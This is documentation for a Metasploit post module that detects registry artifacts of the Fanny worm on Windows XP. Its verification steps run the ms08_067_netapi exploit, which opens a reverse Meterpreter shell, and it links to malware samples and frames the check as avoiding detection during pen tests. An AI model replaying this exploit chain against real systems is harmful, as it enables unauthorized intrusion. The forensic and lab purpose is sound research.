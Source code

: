 ## Vulnerable Application
Fanny or DWE for short. (DWE = DementiaWheel)

Detection module based on the post-/gather/forensics module duqu_check.rb,
Fanny is a worm that infects windows machines, via USB
(not trough Autorun, or at least not only).

in fact, It used exploits later found in StuxNet.
It creates creates some Registry artifacts.

This module is intended to detect those artifacts.

POC https://user-images.githubusercontent.com/68499986/102911824-e2678280-447c-11eb-8495-7180a52c7266.png


  #### supported Environments:
    - [x] Windows x86

  ####  supported SessionTypes:
    - [x]  Meterpreter
    - [x]  Shell

  #### supported OS's:
    - [x] Windows XP Pro (SP3)

-------------------------


## Verification Steps


- [x] First, Git clone the fanny_bmp_check.rb from https://github.com/loneicewolf/metasploit_fanny_check_module/blob/main/fanny_bmp_check.rb

- [x] place it into your msf folder, (important, check the following step before placing it) usually located in /root/.msf4/modules/

- [x] * make the following folders: (under each other) /post/windows/gather/forensics/ <fanny_bmp_check.rb here>

- [x] Start msfconsole

- [x] use exploit/windows/smb/ms08_067_netapi

- [x] set RHOST and LHOST.

- [x] msf6 exploit(windows/smb/ms08_067_netapi) > run

    [*] Started reverse TCP handler on 192.168.122.1:4444
    [*] 192.168.122.160:445 - Automatically detecting the target...
    [*] 192.168.122.160:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 192.168.122.160:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 192.168.122.160:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175174 bytes) to 192.168.122.160
    [*] Meterpreter session 4 opened (192.168.122.1:4444 -> 192.168.122.160:1043) at 2020-12-22 16:55:02 +0100

meterpreter > run post/windows/gather/forensics/fanny_bmp_check

    [*] Searching registry on WORKSTATION1 for Fanny.bmp artifacts.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\Driver found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter2 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter3 found in registry.
    [+] WORKSTATION1: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\MediaResources\acm\ECELP4\filter8 found in registry.
    [*] WORKSTATION1: 4 result(s) found in registry.

-------------------------

## Options
List each option and how to use it.
Session is needed, Do not know really what to include here, other than that.

  < Intentionally left blank >

-------------------------


### Option Name

Talk about what it does, and how to use it appropriately. If the default value is likely to change, include the default value here.

< Intentionally left blank >

-------------------------


## Scenarios
Specific #demo

### Typical Usage Scenario: Pen Test without being Detected

1 thing this could be used as, is (as with the duqu_check) to check,
if a target system (that you/your team is going to/will/plan to perform one or
more penetration tests on, already is infected by any of those, and it would
 probably make a nice looking "alert" to malware researchers who runs malwares
 into sandboxes and vms; (Because it would shortly make the system/vm
 more "targeted" if infected even more.


For example and if a VM(for example) is infected with Duqu,
Maybe it's not the most optimal 'thing' to infect it with anything
(else - in general, at all) By e.g Using metasploit,
(because, the system already is infected with
Duqu(if we take a Duqu Infected VM/System as an example),
Duqu - wich is kinda well known by now, will make the VM
(or if it is a real os, which still does happen) more suspected for malware.


### So, short story: the less malicious activity (the less "malware") on a system, the less detection risk is present.

I Will upload a POC video demonstrating this on Windows 10, x64. Sooner or later.
There's already a XP POC video located here
 - https://github.com/loneicewolf/fanny.bmp/blob/main/FannyMalware%20POC%20.mp4

"Equation Group Q&A PDF File" - Explaining (not only) Fanny, (but also many others, in the "same family" of malware)

 - https://github.com/loneicewolf/fanny.bmp/blob/main/Equation_group_questions_and_answers.pdf

If needed, I included malware samples on the same page.

 **It goes without saying that if you proceed to this page Please exercise caution.**

 - https://github.com/loneicewolf/fanny.bmp


## References

- [x] https://securelist.com/a-fanny-equation-i-am-your-father-stuxnet/68787
- [x] https://fmnagisa.wordpress.com/2020/08/27/revisiting-equationgroups-fanny-worm-or-dementiawheel/
- [x] https://edwardsnowden.com/wp-content/uploads/2017/06/FOXACID-Server-SOP-Redacted.pdf


### Optional reading

- [x] https://github.com/loneicewolf/fanny.bmp/blob/main/2004.06195.pdf

-------------------------


## Version and OS

### Tested on

  - [x] Windows XP Pro SP3 English


-------------------------

## Contact info

Any questions or Improvements / Issues is welcomed either via mail or at the issues tab/page.
william-martens@protonmail.ch
